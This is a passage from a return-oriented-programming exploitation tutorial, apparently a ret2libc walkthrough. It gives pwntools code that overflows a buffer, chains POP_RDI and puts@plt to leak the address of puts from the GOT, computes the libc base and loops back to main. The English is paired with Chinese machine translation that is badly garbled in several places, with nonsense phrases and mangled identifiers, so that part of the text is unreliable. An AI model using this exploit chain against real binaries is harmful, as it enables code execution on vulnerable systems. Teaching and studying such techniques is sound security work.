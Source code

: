 现在是时候找到正在使用** libc **库的版本了。 为此，我们将**泄漏** **地址**为了纪念**函数** p puts和，然后我们将** search ** ** library版本** puts版本在该地址中。

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
    print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
    p.interactive()
```

To do so, the most important line of the executed code is:

为此，执行代码的最重要行是：

```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

This will send some bytes util **overwriting** the **RIP** is possible: `OFFSET`.\

这将发送一些字节util **覆盖** ** rip **是可能的：`offset`。
Then, it will set the **address** of the gadget `POP_RDI` so the next address (`FUNC_GOT`) will be saved in the **RDI** registry. This is because we want to **call puts** **passing** it the **address** of the `PUTS_GOT`as the address in memory of puts function is saved in the address pointing by `PUTS_GOT`.\

然后，它将设置小工具的**地址** pop_rdi`，因此下一个地址（`func_got`）将保存在** rdi **注册表中。 这是因为我们想**呼叫put ** **传递**它的**地址** p puts_got`的地址作为记忆puts函数中的地址保存在地址中，由p puts_got`保存在地址。
After that, `PUTS_PLT` will be called (with `PUTS_GOT` inside the **RDI**) so puts will **read the content** inside `PUTS_GOT` (**the address of puts function in memory**) and will **print it out**.\

之后，将调用`puts_plt`将被调用（在** rdi **内使用`puts_got`），因此puts将**读取``puts_got'ence repand puts_got'（** puts函数**）和 将**打印出**。\ \
Finally, **main function is called again** so we can exploit the overflow again.
